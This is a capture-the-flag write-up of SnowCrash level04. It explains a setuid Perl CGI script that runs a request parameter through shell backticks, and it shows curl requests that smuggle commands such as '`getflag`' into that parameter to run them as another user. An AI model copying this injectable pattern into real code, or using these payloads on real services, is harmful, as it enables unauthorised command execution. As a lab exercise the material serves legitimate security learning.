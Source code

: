 ## level04

```bash
-rwsr-sr-x 1 flag04 level04 152 Mar  5  2016 level04.pl
```

The permission `s` is the "setuid" bit, which tells the OS to execute that program with the userid of its owner. This is typically used with files owned by root to allow normal users to execute them as root with no external tools (such as `sudo`). So [level04.pl](http://level04.pl) would be executed as `flag04`.

The file is a Perl script:

```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\\n\\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));

```

1. **Importing CGI Module**:
    
    ```perl
    use CGI qw{param};
    ```
    
    This line imports the `CGI` module and specifically the `param` function from it. The `CGI` module is used for handling Common Gateway Interface (CGI) requests and responses, which are typically used in web applications.
    
2. **HTTP Header**:
    
    ```perl
    print "Content-type: text/html\\n\\n";
    ```
    
    This line prints the HTTP header indicating that the content type of the response is HTML.
    
3. **Subroutine Definition**:
    
    ```perl
    sub x {
      $y = $_[0];
      print `echo $y 2>&1`;
    }
    ```
    
    This defines a subroutine `x` that takes one argument (`$_[0]`), assigns it to the variable `$y`, and then executes the shell command `echo $y 2>&1`. The backticks ``` are used to execute the command in the shell and capture its output, which is then printed.
    
4. **Calling the Subroutine**:
    
    ```perl
    x(param("x"));
    ```
    
    This calls the subroutine `x` with the value of the CGI parameter `x`. The `param` function retrieves the value of the parameter `x` from the CGI request.
    
    A quick `curl` to [`localhost:4747`](http://localhost:4747) shows me that I can execute code since the parameter is not sanitized!
    
    ```bash
    level04@SnowCrash:~$ curl http://localhost:4747/?x=hello
    hello
    level04@SnowCrash:~$ curl http://localhost:4747/?x=hello;whoami
    hello
    level04
    level04@SnowCrash:~$ curl http://localhost:4747/?x=hello;ls
    hello
    level04.pl
    ```
    
    The problem is that I’m still `level04`... It’s a security feature introduced in Perl (see [here](https://mattmccutchen.net/suidperl.html)).
    
    I need a way to execute the script and pass it the parameter I want.
    
    A few considerations:
    
    - The only instructions called by the script itself is `echo`: if I chain more I can still execute them (as in the second and third examples above) but not as `flag04`
    - I need the argument of echo to be executed and not printed as it is: for that I need the backtick (```) syntax
    
    ```bash
    level04@SnowCrash:~$ curl localhost:4747/?x=whoami
    whoami
    level04@SnowCrash:~$ curl localhost:4747/?x=`whoami`
    level04
    ```
    
    - now `whoami` is called but *before* being passed! I need to pass **literally** ``whoami``so `'`whoami`'`. This way the instruction is not called by the current user `level04` but it’s instead passed as it is.
    
    ```bash
    level04@SnowCrash:~$ curl localhost:4747/?x='`whoami`'
    flag04
    level04@SnowCrash:~$ curl localhost:4747/?x='`getflag`'
    Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
    ```